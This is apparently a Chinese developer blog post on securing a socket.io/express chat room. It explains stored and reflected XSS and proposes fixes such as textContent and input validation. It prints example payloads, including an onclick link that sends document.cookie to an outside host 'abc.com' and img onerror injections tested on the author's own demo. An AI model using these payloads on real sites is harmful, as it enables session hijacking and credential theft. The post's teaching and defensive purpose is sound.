 ```yaml
---
layout: pages
title: socket.io+express实现聊天室的思考（三）
date: 2018-08-28 14:05:03
tags:
categories: 前端
---
```

这一篇文章主要是对 `安全性` 的思考，首先了解一下一些常见的网络攻击
# xss跨站点脚本攻击
XSS是注入攻击的一种，其特点是不对服务器造成任何伤害，而是通过一些正常的站内交互途径，发布含有js的攻击代码，如果服务器没有没有过滤或者转义这些脚本，作为内容发布到了页面上，其他用户访问这个页面时会运行这些脚本
## 储存型XSS
也叫作 `持久性XSS`，会把攻击者的数据储存在服务器端，攻击行为将伴随攻击数据一直存在。
**举个栗子**
1. 攻击者以一个普通用户登录进来，然后在输入框提交以下数据

```js
<a href=# onclick=\"document.location=\'http://abc.com/xss.php?c=\'+escape\(document.cookie\)\;\">更多</a>
```
攻击者提交了这条带标签的数据，该条数据保存在数据库中，而当用户user登录后点击 `更多`时，在 `"abc.com"` 所在的服务器上，攻击者就可以窃取到user的sessionID。有了该sessionID，攻击者在会话有效期内可以获得user权限
## 反射型XSS
即被动的`非持久性XSS`,通过篡改页面，诱骗用户点击带攻击代码的链接。XSS代码出现在URL中，作为输入提交到服务器中，服务器解析后响应，XSS代码随着响应内容一起传回浏览器，由浏览器解析执行XSS代码，从而攻击用户。
## DOM-XSS
# 在本次项目中的漏洞(部分)
完成demo后，我并没有对用户的输入进行过滤然后尝试了一下`<img>`标签的脚本注入发现：
```js
<img src="x" onerror="alert(document.getElementById('username').value)">
```
![xss攻击示例](socket.io+express实现聊天室的思考3/xss攻击示例.gif)


结果：轻而易举得到了用户名。显然,如果不做过滤想要得到用户的密码也是十分简单的
# 解决方案
一. 将 `innerHTML`替换成 `textContent`

innerHTML和 textContent区别：
>innerHTML 返回 HTML 文本。通常，为了在元素中检索或写入文本，人们使用innerHTML。但是，textContent通常具有更好的性能，因为文本不会被解析为HTML。此外，使用textContent可以防止  XSS 攻击。
```js
<img src="x" onerror="alert(document.cookie)>
```
![xss攻击示例](socket.io+express实现聊天室的思考3/xss防御示例.gif)

#### **不过这种方案存在一个问题，就是无法发送图片。我暂时也没有一个好一点的思路，还请大家指教一下~**

二. input输入框登录名验证

```js
var username = document.getElementById('username').value;
var legal = true,
    pattern = new RegExp("[<>`/?!%']|~")
if (username.trim() != '') {
    if (pattern.test(username)) {
        alert("昵称不能包含特殊字符:[<>`/?!%']|~~")
            return false
        }
    else that.socket.emit('login', username)  //不为空，发起一个login事件并将输入的昵称发送到服务器
}
else {
    alert('昵称不能为空')
    document.getElementById('username').focus() //否则输入框获得焦点
}
```

 
# 总结
总而言之，我们不能信任用户的任何输入，只要是需要用户输入的地方都需要做数据的验证和过滤。尤其是对`<input>`,`<img>`等标签需要格外的注意。
当然，仅仅前端做过滤是没有用的，用户可以绕过前端的验证，将数据传送到后端。后端必须对前端传过来的数据进行再次验证。